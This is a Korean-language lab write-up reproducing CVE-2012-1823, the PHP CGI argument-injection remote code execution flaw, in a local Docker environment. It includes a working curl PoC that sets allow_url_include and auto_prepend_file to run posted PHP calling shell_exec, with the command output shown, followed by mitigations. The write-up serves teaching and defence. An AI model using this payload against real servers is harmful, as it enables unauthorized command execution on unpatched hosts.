



# CVE-2012-1823

## Contributors

- 손윤서 (WhiteHat School 4기 2반)

---

## 취약점 요약

CVE-2012-1823은 PHP CGI(Common Gateway Interface)의 매개변수 처리 과정에서 발생하는 원격 코드 실행(Remote Code Execution, RCE) 취약점이다.

취약한 PHP CGI는 URL의 쿼리 문자열에 포함된 `-d`, `-s` 등의 옵션을 제대로 검증하지 않는다. 공격자는 이를 이용하여 PHP 설정을 변경하고 자신이 전달한 PHP 코드를 서버에서 실행할 수 있다. 이 취약점을 악용하면 별도의 인증 없이 서버에서 시스템 명령을 실행할 수 있다.

---

## 환경 구성

### 실습 환경

- macOS (Apple Silicon)
- Docker Desktop
- Docker Compose
- PHP 5.4.1 CGI (Vulhub)

### 취약 환경 실행

```bash
docker compose up -d
```

실행 중인 컨테이너를 확인한다.

```bash
docker ps
```

브라우저에서 아래 주소에 접속한다.

```
http://localhost:8080
```

정상적으로 환경이 실행되면 아래와 같은 화면이 출력된다.



---

## 취약 조건

다음 조건을 만족하면 취약점이 발생한다.

- PHP CGI 사용
- PHP 5.4.2 이전 또는 PHP 5.3.12 버전
- php-cgi가 `-d`, `-s` 등의 옵션을 검증하지 않는 환경

---

## 재현 절차

### 1. 소스 코드 노출 확인

다음 명령을 실행한다.

```bash
curl "http://localhost:8080/index.php?-s"
```

PHP 소스 코드가 그대로 출력되는 것을 확인할 수 있다.



### 2. 원격 코드 실행

다음 명령을 실행한다.

```bash
curl -X POST \
"http://localhost:8080/index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input" \
--data '<?php echo shell_exec("id"); ?>'
```

---

## PoC 코드

```bash
curl -X POST \
"http://localhost:8080/index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input" \
--data '<?php echo shell_exec("id"); ?>'
```

---

## 실행 결과

PoC를 실행한 결과 다음과 같은 출력이 확인되었다.

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

이는 서버에서 공격자가 전달한 PHP 코드가 실제로 실행되었음을 의미하며, CVE-2012-1823 취약점이 성공적으로 재현되었음을 확인할 수 있었다.



---

## 대응 방안

- PHP를 최신 버전으로 업데이트한다.
- PHP CGI 대신 PHP-FPM을 사용한다.
- 웹 애플리케이션 방화벽(WAF)을 적용한다.
- 웹 서버 및 PHP 프로세스의 권한을 최소화한다.